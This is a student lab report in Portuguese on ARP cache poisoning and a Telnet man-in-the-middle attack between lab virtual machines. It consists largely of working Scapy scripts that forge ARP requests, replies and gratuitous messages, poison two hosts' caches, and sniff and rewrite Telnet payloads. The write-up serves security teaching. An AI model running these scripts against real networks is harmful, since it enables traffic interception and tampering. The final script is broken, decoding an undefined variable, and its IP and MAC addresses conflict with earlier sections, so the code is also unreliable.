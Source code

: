 # Laboratório 6 - ARP Cache Poisoning Attack

### Felipe Junio Rezende - 11711ECP007

### Murilo Guerreiro Badoco - 11711ECP010

## Tarefa 1 - ARP Cache Poisoning

O objetivo da tarefa era utilizar o Packet Spoofing para executar um ataque ARP Cache Poisoning. Para isso, foram utilizadas 3 Virtual Machines, as vítimas (A e B) e o atacante (M). Para cada tarefa, modificamos o código fornecido no roteiro, alterando alguns atributos, para testar algumas maneiras de realizar o ataque de ARP Cache Poisoning:

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_16-02-43.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_16-02-43.png)

### Tarefa 1A - Usando ARP request

Na Virtual Machine M, construímos uma requisição de pacote ARP e enviamos para a VM A. O código ficou dessa maneira:

```python
#!/usr/bin/python3
from scapy.all import *

E = Ether()
A = ARP(hwsrc='08:00:27:16:22:25',psrc='10.0.2.4', 
	hwdst='08:00:27:bd:8a:cf', pdst='10.0.2.15')

pkt = E/A
pkt.show()
sendp(pkt)
```

Em seguida, verificamos que o endereço MAC da VM M está mapeado para o endereço IP da VM B, no cache ARP da VM A:

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_16-34-04.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_16-34-04.png)

Cache ARP para as máquinas A e B respectivamente:

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_18-08-00.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_18-08-00.png)

### Tarefa 1B - Usando ARP reply

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_16-51-31.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_16-51-31.png)

Para a próxima tarefa, construímos na VM M uma reposta de pacote ARP e enviamos para a VM A. O código ficou dessa maneira:

```python
#!/usr/bin/python3
from scapy.all import *

E = Ether()
A = ARP(op=2, hwsrc='08:00:27:16:22:25',psrc='10.0.2.4', 
	hwdst='08:00:27:bd:8a:cf', pdst='10.0.2.15')

pkt = E/A
pkt.show()
sendp(pkt)
```

Novamente, verificamos que o endereço MAC da VM M está mapeado para o endereço IP da VM B, no cache ARP da VM A:

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_18-08-00%201.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_18-08-00%201.png)

### Tarefa 1C - Usando ARP gratuitous message

Por fim, construímos na VM M uma requisição de pacote ARP gratuito, através do código a seguir:

```jsx
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst='ff:ff:ff:ff:ff:ff', src='08:00:27:16:22:25')
A = ARP(hwsrc='08:00:27:16:22:25',psrc='10.0.2.4', 
	hwdst='ff:ff:ff:ff:ff:ff', pdst='10.0.2.4')

pkt = E/A
pkt.show()
sendp(pkt)
```

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_18-26-15.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_18-26-15.png)

ARP na máquina B após o envio  da ARP gratuitous message:

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_18-28-34.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-21_18-28-34.png)

## Tarefa 2 - Ataque MITM em Telnet usando ARP Cache Poisoning

Essa tarefa tinha o objetivo de interceptar a comunicação entre as VMs A e B, que utilizam o protocolo Telnet.

### Passo 1 - Executar o ataque ARP cache poisoning

Primeiramente, executamos da VM M, o ataque de ARP cache poisoning para as VMs A e B, para que o cache ARP de A mapeasse o endereço IP de B ao endereço MAC de M, e da mesma maneira, mapeasse o IP de A ao endereço MAC de M. Assim, todos os pacotes enviados entre A e B serão interceptados pela VM M.

```python
#!/usr/bin/python3
from scapy.all import *

def spoof_ARP(ip_src, mac_src, ip_dst, mac_dst):
	E = Ether(dst=mac_dst, src=mac_src)
	A = ARP(hwsrc=mac_src ,psrc=ip_src, 
	hwdst=mac_dst, pdst=ip_dst)
	pkt = E/A
	pkt.show()
	sendp(pkt)

m_mac = '08:00:27:11:8f:ff'

spoof_ARP('10.0.2.15', m_mac, '10.0.2.4', '08:00:27:16:22:25')
spoof_ARP('10.0.2.4', m_mac, '10.0.2.15', '08:00:27:bd:8a:cf')
```

Pacotes no wireshark:

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-23_14-26-24.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-23_14-26-24.png)

### Passo 2 - Testando

Com o ataque bem sucedido, realizamos um Ping entre A e B e observamos, por meio do Wireshark, que os pacotes enviados de A partem diretamente para B, porém são interceptados por M indicando que o ataque ocorreu com sucesso. A máquina A tenta repetidas vezes realizar o PING até que o faz em Broadcast.

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-23_15-09-18.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-23_15-09-18.png)

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-23_15-10-07.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-23_15-10-07.png)

### Passo 3 - Ligando IP Forwarding

Para o próximo passo, ligamos o IP Forwarding na VM M, para que esse pudesse encaminhar os pacotes interceptados entre A e B. Para isso, executamos no terminal o seguinte comando:

```bash
$ sudo sysctl net.ipv4.ip_forward=1
```

Em seguida, realizamos novamente um Ping entre A e B e observamos que os pacotes que chegam de A encontram M, que por sua vez percebe que não é o destino e os redireciona para B.

![ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-23_15-29-09.png](ARP-Cache-Poisoning-Attack-Images/Screenshot_from_2021-05-23_15-29-09.png)

### Passo 4 - Executando o ataque MITM

Para o último passo, nós criamos uma conexão por meio do Telnet entre A e B, e em seguida, desligamos o IP Forwarding utilizando o comando abaixo:

```bash
$ sudo sysctl net.ipv4.ip_forward=0
```

Em seguida, digitamos algo na janela de A, e observamos que nada acontece de imediato:

![ARP-Cache-Poisoning-Attack-Images/Untitled.png](ARP-Cache-Poisoning-Attack-Images/Untitled.png)

Depois, nós executamos o programa de Sniff and Spoof na VM M, para que a cada pacote capturado de A para B, enviássemos um pacote, por meio do Spoofing, só que com dados TCP diferentes. Já para os pacotes enviados de B para A (Reply Packets), não realizamos nenhuma modificação. O código construído ficou dessa maneira:

```python
#!/usr/bin/python3
from scapy.all import *
import re

VM_A_IP = '10.0.2.10'
VM_B_IP = '10.0.2.9'

def spoof_pkt(pkt):
	if pkt[IP].src == VM_A_IP and pkt[IP].dst == VM_B_IP and pkt[TCP].payload:
		olddata = (pkt[TCP].payload.load)
		data = real.decode()
		newdata = re.sub(r'[a-zA-Z]',r'Z',data)
		newpkt = pkt[IP]
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)
		send(newpkt/newdata)
		print("Substituindo: "+str(olddata)+" para: "+ newdata)
	elif pkt[IP].src == VM_B_IP and pkt[IP].dst == VM_A_IP:
		newpkt = pkt[IP]
		send(newpkt)

pkt = sniff(filter='tcp',prn=spoof_pkt)
```

Ao digitar 'asd' na tela da VM A, observamos que o ataque MITM foi realizado com sucesso:

![ARP-Cache-Poisoning-Attack-Images/Untitled%201.png](ARP-Cache-Poisoning-Attack-Images/Untitled%201.png)
